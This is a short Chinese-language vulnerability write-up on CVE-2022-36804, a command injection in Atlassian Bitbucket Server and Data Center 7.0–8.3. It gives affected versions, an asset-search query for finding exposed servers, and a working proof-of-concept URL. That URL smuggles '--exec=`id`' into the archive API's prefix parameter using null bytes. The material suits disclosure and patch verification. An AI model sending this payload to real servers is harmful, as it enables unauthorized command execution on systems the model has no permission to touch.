

# Atlassian Bitbucket archive 远程命令执行漏洞 CVE-2022-36804

## 漏洞描述

Atlassian 发布安全公告，披露了 Bitbucket Server 和 Data Center 在 7.0.0 版中引入了一个严重安全漏洞。

Bitbucket 是 Atlassian 公司提供的一个基于 web 的版本库托管服务，支持 Mercurial 和 Git 版本控制系统。支持私有化部署，根据国内某资产测绘平台数据显示，近一年全球有超过 1w+ 相关服务对外开放。

官方漏洞公告中描述 Bitbucket Server 和 Data Center 多个 API 端点存在命令注入漏洞，漏洞触发条件是攻击者具备公开项目的访问权限或者私有项目的可读权限，影响版本从 7.0 到 8.3

## 漏洞影响

<a-checkbox checked>Atlassian Bitbucket  7.0～8.3</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-Bitbucket"</a-checkbox></br>

## 漏洞复现

登录页面



验证POC

```sql
/rest/api/latest/projects/BIZEE/repos/bizee-communication-api/archive?filename=wN3Am&at=wN3Am&path=wN3Am&prefix=ax%00--exec=%60id%60%00--remote=origin
```

